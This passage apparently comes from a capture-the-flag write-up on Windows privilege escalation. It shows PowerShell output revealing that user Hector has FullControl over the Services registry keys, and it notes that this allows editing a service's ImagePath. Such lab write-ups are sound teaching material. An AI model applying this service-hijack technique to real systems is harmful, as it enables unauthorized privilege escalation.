 Using the following command, we can make the SDDL readable for humans.<br>
It shows that `Control\Hector` has `FullControl` permission and we can modify the value `ImagePath` for specifying executables.
```
PS C:\Users\Hector\Documents> $acl = get-acl HKLM:\System\CurrentControlSet\Services
$acl = get-acl HKLM:\System\CurrentControlSet\Services
PS C:\Users\Hector\Documents> ConvertFrom-SddlString -Sddl $acl.Sddl -type RegistryRights
ConvertFrom-SddlString -Sddl $acl.Sddl -type RegistryRights


Owner            : NT AUTHORITY\SYSTEM
Group            : NT AUTHORITY\SYSTEM
DiscretionaryAcl : {NT AUTHORITY\Authenticated Users: AccessAllowed (EnumerateSubKeys, ExecuteKey, Notify, 
                   QueryValues, ReadPermissions), NT AUTHORITY\SYSTEM: AccessAllowed (ChangePermissions, CreateLink, 
                   CreateSubKey, Delete, EnumerateSubKeys, ExecuteKey, FullControl, GenericExecute, GenericWrite, 
                   Notify, QueryValues, ReadPermissions, SetValue, TakeOwnership, WriteKey), BUILTIN\Administrators: 
                   AccessAllowed (ChangePermissions, CreateLink, CreateSubKey, Delete, EnumerateSubKeys, ExecuteKey, 
                   FullControl, GenericExecute, GenericWrite, Notify, QueryValues, ReadPermissions, SetValue, 
                   TakeOwnership, WriteKey), CONTROL\Hector: AccessAllowed (ChangePermissions, CreateLink, 
                   CreateSubKey, Delete, EnumerateSubKeys, ExecuteKey, FullControl, GenericExecute, GenericWrite, 
                   Notify, QueryValues, ReadPermissions, SetValue, TakeOwnership, WriteKey)...}
SystemAcl        : {}
RawDescriptor    : System.Security.AccessControl.CommonSecurityDescriptor
```

After that, try to find if really `Control\Hector` has permission for services.<br>
As the following result shows, we have over 3000 `FullControl` access for all entries (services).
```
PS C:\Users\Hector\Documents> get-acl HKLM:\System\CurrentControlSet\services\* | Format-List *| findstr /i "Hector Users Path Everyone"
get-acl HKLM:\System\CurrentControlSet\services\* | Format-List *| findstr /i "Hector Users Path"
PSPath                  : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\.NET
PSParentPath            : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services
Path                    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\.NET
                          NT AUTHORITY\Authenticated Users Allow  ReadKey
                          CONTROL\Hector Allow  FullControl
PSPath                  : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\.NET
PSParentPath            : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services
Path                    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\.NET
                          NT AUTHORITY\Authenticated Users Allow  ReadKey
                          CONTROL\Hector Allow  FullControl
PSPath                  : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\.NET
PSParentPath            : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services
Path                    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\.NET
                          NT AUTHORITY\Authenticated Users Allow  ReadKey
                          CONTROL\Hector Allow  FullControl

---
```